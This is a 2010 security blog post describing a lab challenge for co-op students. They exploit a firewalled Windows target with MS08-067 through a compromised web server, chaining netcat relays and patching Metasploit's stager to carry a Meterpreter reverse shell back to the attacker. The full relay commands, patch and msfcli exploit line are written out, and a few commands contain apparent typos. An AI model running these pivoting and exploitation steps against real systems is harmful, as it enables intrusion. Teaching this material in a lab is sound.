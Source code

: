 ```yaml
---
id: 793
title: Five Relays and a Patch
date: '2010-05-26T08:57:34-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=793
permalink: "/2010/five-relays-and-a-patch"
categories:
- hacking
- tools
comments_id: '109638352517822602'

---
```


Hey all,

We hired a new pair of <a href="http://coop.cs.umanitoba.ca">co-op students</a> recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:
<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Firewall Rules" src="/blogdata/fiverelays-1.png" alt="" width="236" height="494" />
To describe in text:
<ul>
	<li>They have already compromised a Web server with a non-root account</li>
	<li>The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)</li>
	<li>The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.</li>
</ul>
The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.
<!--more-->
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!
<h2>Five relays and a patch</h2>
The image below shows the various netcat relays we ended up using, in order of execution.

<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Relays" src="/blogdata/fiverelays-2.png" alt="" width="405" height="560" />

The first goal was to find a way to bypass the firewalls.  Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us.  Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:
<pre> nc HACKER 1234 -vv &lt; pipe4 |  nc TARGET 445 -vv &gt; pipe4</pre>
This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).
<pre> nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
As you might have noticed the WEB is  connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.
<pre> nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit  once it did by running a final command:
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the <em>stager.rb</em> in the <em>lib/msf/core/payload/</em> folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):
<pre>Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix</pre>
Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided
<ol>
	<li>This command is run on the HACKER:</li>
<pre>nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
	<li>This command was run on the WEB:</li>
<pre>nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
	<li>HACKER:</li>
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
	<li>WEB:</li>
<pre>nc HACKER 1234 -vv &lt; pipe4 | nc TARGET 445 -vv &gt; pipe4</pre>
	<li>Now that we have a connection to the target we run an exploit:</li>
<pre>./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E</pre>
	<li>Last command is run on HACKER when Relay #2 displays a detected connection:</li>
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
</ol>
